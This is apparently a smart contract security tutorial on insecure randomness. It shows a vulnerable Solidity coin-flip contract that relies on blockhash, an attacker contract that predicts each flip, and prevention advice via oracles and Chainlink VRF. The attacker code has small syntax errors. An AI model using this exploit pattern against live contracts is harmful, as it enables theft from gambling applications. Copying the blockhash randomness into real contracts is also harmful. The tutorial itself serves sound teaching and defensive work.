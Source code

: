 # Avoid using `block.number` as a timestamp

Ability to generate `random numbers` is very helpful in all kinds of applications. One obvious example is gambling DApps, where pseudo-random number generator is used to pick the winner. For example, use of `block.timestamp` is insecure, as a miner can choose to provide any timestamp within a few seconds and still get his block accepted by others. Use of `blockhash`, `block.difficulty` and other fields is also insecure, as they're controlled by the miner. If the stakes are high, the miner can mine lots of blocks in a short time by renting hardware, pick the block that has required block hash for him to win, and drop all others.

#### This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip.

    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;

    contract CoinFlip {

      uint256 public consecutiveWins;
      uint256 lastHash;
      uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

      constructor() {
        consecutiveWins = 0;
      }

      function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
          revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
          consecutiveWins++;
          return true;
        } else {
          consecutiveWins = 0;
          return false;
        }
      }
    }
    
    
There are three state variables in above contract:

* `consecutiveWins` initialized by zero from the constructor. This variable will count how many consecutive correct guess we have made. 
* `FACTOR` that is declared as `57896044618658097711785492504343953926634992332820282019728792003956564819968`.
* `lastHash` that will be updated each time by the `flip() function`





### Attacker


    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;

    contract Attacker {

      uint256 lastHash;
      uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;


      function attack(address _ CoinFlipContractAdd) public returns (bool) {
          uint256 blockValue = uint256(blockhash(block.number - 1));

        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        _CoinFlipContractAdd.flip(side);

      }
    }
    
    
   
    
    
  It is possible to estimate a time delta using the `block.number` property and average `block time`, however this is not future proof as block times may change
  
  Here, the attacker can easily manipulate the `random guess`  for the flip coin game.
  
 ## Prevent technique
 
 Using external sources of randomness via oracles, e.g. Oraclize. Note that this approach requires trusting in oracle, thus it may be reasonable to use multiple oracles.
  
 ### Chainlink VRF
 
 `Chainlink VRF (Verifiable Random Function)` is a provably fair and verifiable `random number generator (RNG)` that enables smart contracts
 to access random values without compromising security or usability. For each request, Chainlink `VRF generates` one or more random values 
 and `cryptographic proof` of how those values were determined. The proof is published and verified on-chain before any consuming applications
 can use it. This process ensures that results cannot be tampered with or manipulated by any single entity including `oracle operators`, `miners`
 , `users`, or `smart contract developers`.
  
  
  
  
  
  
  
